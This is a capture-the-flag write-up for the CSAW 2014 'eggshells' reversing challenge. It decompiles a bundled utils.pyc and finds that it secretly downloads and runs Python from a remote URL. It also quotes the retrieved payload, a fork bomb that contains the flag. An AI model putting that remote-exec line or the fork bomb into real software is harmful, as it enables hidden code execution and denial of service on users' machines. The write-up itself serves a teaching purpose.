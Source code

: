 # eggshells

Full disclosure, this challenge relies off of a website that no longer has the flag, however this writeups will still show you how to get to that point.

So we are given a zip file. Let's extract it and see what's inside:

```
$	unzip -D eggshells-master.zip 
Archive:  eggshells-master.zip
   creating: eggshells-master/
  inflating: eggshells-master/.DS_Store  
   creating: __MACOSX/
   creating: __MACOSX/eggshells-master/
  inflating: __MACOSX/eggshells-master/._.DS_Store  
  inflating: eggshells-master/.gitattributes  
  inflating: __MACOSX/eggshells-master/._.gitattributes  
  inflating: eggshells-master/.gitignore  
  inflating: __MACOSX/eggshells-master/._.gitignore  
  inflating: eggshells-master/capstone.py  
  inflating: __MACOSX/eggshells-master/._capstone.py  
  inflating: eggshells-master/distorm.py  
  inflating: __MACOSX/eggshells-master/._distorm.py  
  inflating: eggshells-master/interpreter.py  
  inflating: __MACOSX/eggshells-master/._interpreter.py  
  inflating: eggshells-master/main.py  
  inflating: __MACOSX/eggshells-master/._main.py  
   creating: eggshells-master/nasm/
  inflating: eggshells-master/nasm/.DS_Store  
   creating: __MACOSX/eggshells-master/nasm/
  inflating: __MACOSX/eggshells-master/nasm/._.DS_Store  
  inflating: eggshells-master/nasm/LICENSE  
  inflating: __MACOSX/eggshells-master/nasm/._LICENSE  
  inflating: eggshells-master/nasm/nasm.exe  
  inflating: __MACOSX/eggshells-master/nasm/._nasm.exe  
  inflating: eggshells-master/nasm/ndisasm.exe  
  inflating: __MACOSX/eggshells-master/nasm/._ndisasm.exe  
   creating: eggshells-master/nasm/rdoff/
  inflating: eggshells-master/nasm/rdoff/ldrdf.exe  
   creating: __MACOSX/eggshells-master/nasm/rdoff/
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._ldrdf.exe  
  inflating: eggshells-master/nasm/rdoff/rdf2bin.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdf2bin.exe  
  inflating: eggshells-master/nasm/rdoff/rdf2com.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdf2com.exe  
  inflating: eggshells-master/nasm/rdoff/rdf2ihx.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdf2ihx.exe  
  inflating: eggshells-master/nasm/rdoff/rdf2ith.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdf2ith.exe  
  inflating: eggshells-master/nasm/rdoff/rdf2srec.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdf2srec.exe  
  inflating: eggshells-master/nasm/rdoff/rdfdump.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdfdump.exe  
  inflating: eggshells-master/nasm/rdoff/rdflib.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdflib.exe  
  inflating: eggshells-master/nasm/rdoff/rdx.exe  
  inflating: __MACOSX/eggshells-master/nasm/rdoff/._rdx.exe  
  inflating: __MACOSX/eggshells-master/nasm/._rdoff  
  inflating: __MACOSX/eggshells-master/._nasm  
  inflating: eggshells-master/nasm.py  
  inflating: __MACOSX/eggshells-master/._nasm.py  
  inflating: eggshells-master/server.py  
  inflating: __MACOSX/eggshells-master/._server.py  
  inflating: eggshells-master/shellcode.py  
  inflating: __MACOSX/eggshells-master/._shellcode.py  
  inflating: eggshells-master/utils.pyc  
  inflating: eggshells-master/wrapper.py  
  inflating: __MACOSX/eggshells-master/._wrapper.py  
  inflating: __MACOSX/._eggshells-master  
$	ls
eggshells-master  eggshells-master.zip  __MACOSX
$	ls eggshells-master
capstone.py  interpreter.py  nasm     server.py     utils.pyc
distorm.py   main.py         nasm.py  shellcode.py  wrapper.py
```

So inside of the zip, we can see several python scripts, a directory, and compiled python code `utils.pyc`. Looking at a couple of the python scripts such as `server.py`, or `main.py` we can see that they all `import utils` so that the compiled python code is used in all of them. 

We can decompyle the python code using Uncompyle2, which can be found here:

```
https://github.com/wibiti/uncompyle2
```

To install it, is fairly simple. First clone the repo:

```
$	https://github.com/wibiti/uncompyle2.git
```

Then run the install script:

```
$	cd uncompyle2/
$	sudo python setup.py install
```

If you want to see all possible commands:
```
$	uncompyle2 -h
```

And now to decompile the `utils.pyc` file:
```
uncompyle2 utils.pyc 
# 2017.08.21 19:45:51 EDT
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc 
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2017.08.21 19:45:51 EDT
```

So all this does essentially is it reads the url `http://kchung.co/lol.py`. When we curl it, we get this error (and when we access it with a web browser, it just redirects us to http://kchung.co)

```
$	curl http://kchung.co/lol.py
<html>
<head><title>302 Found</title></head>
<body bgcolor="white">
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.4.6 (Ubuntu)</center>
</body>
</html>
```

The original python script used for the challenge was taken down. However durring the competition, if you curled that web address, you would of gotten the flag (and a forkbomb). I got this information from `https://github.com/ctfs/write-ups-2014/tree/master/csaw-ctf-2014/eggshells`:

```
$	curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Just like that, we got the flag.
